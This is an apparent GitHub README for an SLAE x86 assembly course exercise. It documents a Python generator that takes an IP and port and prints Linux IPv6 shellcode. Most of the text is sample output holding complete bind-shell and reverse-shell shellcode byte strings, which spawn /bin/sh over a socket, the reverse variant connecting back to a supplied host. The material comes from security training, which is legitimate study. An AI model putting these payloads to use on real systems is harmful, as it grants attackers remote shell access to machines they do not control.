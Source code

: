 # SLAE
SecurityTube Linux Assembly Expert/x86

Usage: BIND_REVERSE_SHELL.py

==>python BIND_REVERSE_SHELL.py

Output:
Enter the IP to connect-back: 127.1.1.1 \\Your IP
Enter the PORT: 4444\\Your IP

HEX: 0x7f010101
127.1.1.1 has been converted to little-endian\x01\x01\x01\x7f
PORT 4444 has been converted to \x11\x5c

Choose your shellcode 


Your Bind shell for IPv6 socket has been configured successfully: \x6a\x66\x58\x31\xdb\x6a\x06\x6a\x01\x6a\x0a\x43\x89\xe1\xcd\x80\x96\x31\xc0\x50\x50\x50\x50\x50\x66\x68\x11\x5c\x66\x6a\x0a\x89\xe1\x6a\x1c\x51\x56\x89\xe1\x43\x6a\x66\x58\xcd\x80\x53\x56\x89\xe1\x43\x43\x6a\x66\x58\xcd\x80\x99\x52\x52\x56\x89\xe1\x43\x6a\x66\x58\xcd\x80\x93\x6a\x02\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x31\xc9\x51\x6a\x0b\x58\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80 


Your Reverse shell for IPv6 socket has been configured successfully: \x6a\x66\x58\x31\xdb\x6a\x06\x6a\x01\x6a\x0a\x43\x89\xe1\xcd\x80\x96\x31\xc0\x50\x68\x01\x01\x01\x7f\x66\x6a\xff\x50\x50\x66\x50\x50\x66\x68\x11\x5c\x66\x6a\x0a\x89\xe1\x6a\x1c\x51\x56\x89\xe1\x43\x43\x6a\x66\x58\xcd\x80\x6a\x02\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x31\xc9\x51\x6a\x0b\x58\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80 
